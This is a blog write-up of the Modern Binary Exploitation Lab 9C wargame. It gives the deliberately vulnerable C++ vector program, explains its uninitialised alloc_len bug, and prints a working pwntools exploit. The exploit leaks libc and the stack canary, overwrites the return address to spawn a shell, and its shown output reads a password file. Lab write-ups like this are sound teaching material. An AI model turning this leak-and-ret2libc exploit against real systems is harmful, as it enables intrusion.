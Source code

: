 ```yaml
---
layout: post
title: Modern Binary Exploitation - Lab 9C
published: True
---
```


For this lab, we are given a program and its corresponding source code in C++.

{% highlight C %}
/*
 *  compile: g++ -fstack-protector-all -z relro -z now ./lab9C.cpp -o lab9C
 *
 *  DSVector - A basic homwork implementation of std::vector
 *  This is a wrapper program to test it!
 */

#include <iostream>
#include <limits>
#include <cstdlib>
#include <cstdio>
#include <cstring>
#include <unistd.h>
#include "utils.h"

ENABLE_TIMEOUT(60)

void
print_menu(void)
{   
    printf("+------- DSVector Test Menu -------+\n"
           "| 1. Append item                   |\n"
           "| 2. Read item                     |\n"
           "| 3. Quit                          |\n"
           "+----------------------------------+\n");
}

template <class T>
class DSVector {
    public:
                     // I don't like indexing from 0, I learned VB.NET first.
        DSVector() : len(1), alloc_len(len+256) {}
        unsigned int size() { return len; }
        void append(T item);
                                            // No info leaks, either!
        T get(unsigned int index) { return (index < alloc_len ? vector_data[index] : -1); };
    private:
        unsigned int alloc_len;
        unsigned int len;
        // I was asleep during the dynamic sizing part, at least you can't overflow!
        T vector_data[1+256];
};

template <class T>
void
DSVector<T>::append(T item)
{   
    // No overflow for you!
    if (len >= alloc_len) {
        std::cout << "Vector is full!" << std::endl;
        return;
    }
    vector_data[this->len++] = item;
}

int
main(int argc, char *argv[])
{   
    DSVector<int> test1;
    unsigned int choice = 0;
    bool done = false;
    disable_buffering(stdout);

    while (!done) {
        print_menu();
        std::cout << "Enter choice: ";
        choice = get_unum();

        /* handle menu selection */
        switch (choice) {
        case 1:
            std::cout << "Enter a number: ";
            choice = get_unum();
            test1.append(choice);
            break;
        case 2:
            std::cout << "Choose an index: ";
            choice = get_unum();
            printf("DSVector[%d] = %d\n", choice, test1.get(choice));
            break;
        case 3:
            done = true;
            break;
        default:
            puts("Invalid choice!");
            break;
        }
    }

    return EXIT_SUCCESS;
}
{% endhighlight %}

If we run `checksec`, we can see that stack canaries, NX, PIE and full RELRO are.

{% highlight python%}
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
{% endhighlight %}

## Vulnerability

There is a subtle uninitialized variable vulnerability introduced in this program due to the order in which the member variables in the `DSVector` class are declared and initialized.

They are declared in this order:

{% highlight C %}
unsigned int alloc_len;
unsigned int len;
{% endhighlight %}

However, in the class constructor, the initialization order is different.
{% highlight C %}
DSVector() : len(1), alloc_len(len+256) {}
{% endhighlight %}

**Because of this difference, and because in C++, member variables are initialized in the same order in which they are declared, `alloc_len` will be initialized to a very large value, as `len` will still be uninitialized.**

We can verify this in `gdb`:
{% highlight bash %}
gdb-peda$ x/32xw 0xffffcf90
0xffffcf90:     0x04f452fe      0x00000003      0x9e8a3fca      0x00000008
0xffffcfa0:     0x00000008      0x00000008      0xf7eede95      0xf7fdaacc
{% endhighlight %}

The values shown correspond to the following.
{% highlight bash %}
this.alloc_len @ 0xffffcf90
this.len @ 0xffffcf94
this.vector_data[1] @ 0xffffcf9c
{% endhighlight %}

Due to this error, we can read and write values to and off the stack, as the checks for read and writes all rely on the `alloc_len` variable.

We can use this primitive to leak the base address of libc, the address of `system@libc`, and the value of the stack canary, which we can later use to patch the canary and overwrite the saved EIP of the main function to make it call `system("/bin/sh\0");` upon exiting.

Putting everything together, the following exploit will give us a shell.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def append(number):
    r.sendline("1")
    r.recvuntil(": ")
    r.sendline(str(number))
    r.recvuntil(": ")

def read(index):
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline(str(index))
    return r.recvuntil(": ")

def quit():
    r.sendline("3")

def exploit(r):
    r.recvuntil(": ")

    ## INFOLEAKS
    libc_leak = int(read(259).split()[2])
    libc_base =  libc_leak-0x1aa000
    log.success("libc base found @ "+hex(libc_base&0xffffffff))
    system = libc_base+0x40190
    binsh = libc_base+0x160a24
    log.success("system found @ "+hex(system & 0xffffffff))
    log.success('"/bin/sh" string found  @ '+hex(binsh & 0xffffffff))
    canary = int(read(257).split()[2])
    log.success("canary leaked: "+ hex(canary & 0xffffffff))
    stack_leak = int(read(263).split()[2])

    ## CONTROL EIP
    for i in range(256):
        append(1094795585)
    append(canary)
    append(1094795585)
    append(1094795585)
    append(1094795585)
    append(system)      # overwrites EIP with system
    append(0)           # filler
    append(binsh)       # "/bins/sh\0"
    quit()

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/MBE/lab09/9C/lab9C'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight bash %}
rh0gue@vexillum:~/Documents/MBE/lab09/9C$ python solve.py warzone 9943

[*] For remote: solve.py HOST PORT
[+] Opening connection to warzone on port 9943: Done
[+] libc base found @ 0xb7496000
[+] system found @ 0xb74d6190
[+] "/bin/sh" string found  @ 0xb75f6a24
[+] canary leaked: 0x79ecf900
[*] Switching to interactive mode
$ id
uid=1034(lab9A) gid=1035(lab9A) groups=1035(lab9A),1001(gameuser)
$ cat /home/lab9A/.pass
1_th0uGht_th4t_w4rn1ng_wa5_l4m3
$  
{% endhighlight %}
